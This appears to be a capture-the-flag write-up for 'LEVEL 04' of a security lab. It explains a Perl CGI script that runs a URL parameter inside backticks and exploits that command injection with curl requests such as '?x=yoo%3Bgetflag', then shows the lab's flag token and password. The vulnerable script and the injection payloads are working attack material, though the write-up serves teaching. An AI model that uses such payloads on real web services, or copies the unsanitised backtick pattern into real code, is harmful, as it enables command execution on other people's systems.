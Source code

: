 # LEVEL 04

## 💡 Explanation

 * This file execute itself when doing `curl localhost:4747/level04.pl/`
 * And if the url has a query with a parameter 'x' it will print it.
 * As the text is between backticks and is a shell command we can use it at our advantage
 * `echo $y 2>&1` can become `echo Whatever && ourcommand 2>&1`
 * The last thing to do will be to encrypt spaces and & characters for urls
 * `curl localhost:4747/level04.pl/?x=yoo%3Bgetflag`

```bash
curl localhost:4747/level04.pl/?x=yoo%3Bgetflag
yoo
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

`level04.pl`
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

## 👾 Commands

```
cat level04.pl
./level04.pl
curl http://localhost:4747
curl http://localhost:4747/?x=lol
curl http://localhost:4747/?x=\`getflag\`
```

## 🔍 Resources

- [Perl language - Functions & Arguments](https://www.tutorialspoint.com/perl/perl_subroutines.htm)

## 🔥 Password
`ne2searoevaevoem4ov4ar8ap`
